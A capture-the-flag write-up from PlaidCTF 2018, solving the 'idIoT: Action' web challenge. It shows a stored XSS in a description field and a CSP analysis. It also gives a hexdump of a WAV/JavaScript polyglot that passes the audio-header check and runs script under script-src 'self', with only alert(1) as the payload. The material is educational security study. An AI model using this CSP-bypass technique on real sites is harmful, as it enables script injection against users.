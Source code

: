 # PlaidCTF 2018

**It's recommended to read our responsive [web
version](https://balsn.tw/ctf_writeup/20180505-plaidctf/) of this writeup.**

- [PlaidCTF 2018](#plaidctf-2018)  
  - [web](#web)  
    - [idIoT: Action (bookgin)](#idiot-action-bookgin)  
    - [idIoT: Camera (unsolved, written by bookgin)](#idiot-camera-unsolved-written-by-bookgin)

## web

### idIoT: Action (bookgin)

After login, we can post a clip of audio with title and description. The
description filed is vulnerable to XSS. We insert `<marquee>xss</marquee>` in
to the description and find it works!

However, let's take a look at Content Security Policy:

```  
style-src 'self' https://fonts.googleapis.com;  
font-src 'self' https://fonts.gstatic.com;  
media-src 'self' blob:;  
script-src 'self';  
object-src 'self';  
frame-src 'self'  
```

Note that `image-src` is not defined. We can insert `![](evil_website)` to
check if the headless robot is browsing this clip.

It's impossible to XSS directly in the description because `script-src self`
will block the inline javascript. However, if we can upload a javascript, we
can use `<script src="...">` to execute the payload! But how?

The website allows the user to upload an audio clip, with file extension
ogg/wav/wave/webm/mp3. The server site seems to validate the audio header. A
plain text file cannot be uploaded.

This is easy to bypass. We simply manipulate the WAV format and comment out
the header field. Then, insert the javascript payload after the header.

```  
00000000: 5249 4646 3d31 2f2a 5741 5645 666d 7420  RIFF=1/*WAVEfmt  
00000010: 1000 0000 0100 0100 c05d 0000 80bb 0000  .........]......  
00000020: 0200 1000 4c49 5354 1a00 0000 494e 464f  ....LIST....INFO  
00000030: 4953 4654 0e00 0000 4c61 7666 3537 2e38  ISFT....Lavf57.8  
00000040: 332e 3130 3000 6461 7461 80d8 0100 0000  3.100.data......  
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................  
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................  
00000070: 0000 0000 0000 0000 0000 0000 0000 0000  ................  
00000080: 0000 0000 0000 0000 0000 0000 ffff 0000  ................  
00000090: 0000 0000 0000 0000 0000 0000 0000 0000  ................  
000000a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................  
000000b0: 0000 0000 0000 0000 0000 0000 0000 0000  ................  
000000c0: 0000 0000 0000 0000 2a2f 0a3b 616c 6572  ........*/.;aler  
000000d0: 7428 3129 3b0a                           t(1);.  
```
